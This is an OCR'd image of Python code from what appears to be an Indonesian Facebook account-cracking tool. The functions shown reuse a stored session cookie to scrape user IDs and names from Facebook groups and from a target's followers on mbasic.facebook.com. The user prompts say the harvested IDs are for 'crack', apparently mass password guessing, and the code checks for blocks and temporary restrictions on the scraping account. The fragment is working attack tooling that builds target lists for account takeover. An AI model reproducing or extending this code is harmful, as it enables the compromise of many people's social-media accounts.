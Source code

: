  def kocak(url,cokies): 
         data = parser(ses.get(url,cookies={"cookie": cokies}).text, "html.parser") 
         judul = re.findall("<title>(.*?)</title>",str(data))[0] 
         if str(judul) == 'Use basic mode': 
                 print('\n [+] Cokies Berada Dalam Mode Free');exit() 
         if str(judul) == 'Epsilon': 
                 print('\n [+] Cokies Tidak Dpt Mengakses Grup');exit() 
         if str(judul) == 'Kesalahan': 
                 print('\n [+] Cokies Yg Anda Masukan Salah');exit() 
         if str(judul) == 'Masuk Facebook' or str(judul) == 'Masuk Facebook | Facebook' or str(judul) == 'Masuk ke Facebook' or str(judul) == 'Log in to Facebook': 
                 print('\n [+] Cokies Mokad');exit() 
         else: 
                 for isi in data.find_all("h3"): 
                         for ids in isi.find_all("a",href=True): 
                                 if "profile.php" in ids.get("href"):uid = ids.get("href").split("=")[1].replace("&eav","");nama = ids.text 
                                 else: 
                                         if ids.text==judul:pass 
                                         else:uid = ids.get("href").split("/")[1].split("?")[0];nama = ids.text 
                                 if uid+"|"+nama in id:pass 
                                 else:id.append(uid+"|"+nama) 
                                 print('\r [+] Mengumpulkan %s Id'%(len(id)),end='') 
                 for x in data.find_all("a",href=True): 
                         if "Lihat Postingan Lainnya" in x.text: 
                                 kocak("https://mbasic.facebook.com"+x.get("href"),cokies) 
  
 ###----------[ DUMP PENGIKUT ]---------- ### 
 def pengikut(): 
         try: 
                 token = open('.token.txt','r').read() 
                 cookie = open('.cok.txt','r').read() 
         except IOError: 
                 print(' [+] Cookies Kadaluarsa ') 
                 time.sleep(5) 
                 login() 
         ses = requests.Session() 
         cetak(panel(f"Ketik 'Me' Jika Ingin Crack Dari Total Followers Anda Sendiri",width=90,padding=(0,7),style=f"bold white")) 
         user = input(f" [+] Masukan Id : ") 
         if user.isdigit(): 
                 url = (f"https://mbasic.facebook.com/profile.php?id={user}&v=followers") 
         else: 
                 url = (f"https://mbasic.facebook.com/{user}?v=followers") 
         try: 
                 link = ses.get(url, cookies={"cookie": cookie}).text 
                 if "Halaman Tidak Ditemukan" in link: 
                         print("\n [+] Pengguna Dengan User Id {user} Tidak Ditemukan") 
                         time.sleep(2);exit() 
                 elif "Anda Diblokir Sementara" in link: 
                         print("\n [+] Akun Anda Di Batasin Sementara") 
                         time.sleep(2);exit() 
                 elif "Konten Tidak Ditemukan" in link: 
                         print("\n [+] Pengguna Dengan User Id {user} Tidak Ditemukan") 
                         time.sleep(2);exit() 
                 else: 
                         dump_followers(url, cookie) 
         except (requests.exceptions.ConnectionError,requests.exceptions.ChunkedEncodingError,requests.exceptions.ReadTimeout) as e: 
                 print(" [+] Tidak Ada Koneksi Internet, Periksa Kembali Koneksi Anda") 
                 time.sleep(3);exit() 
         print("\r") 
         setting() 
  
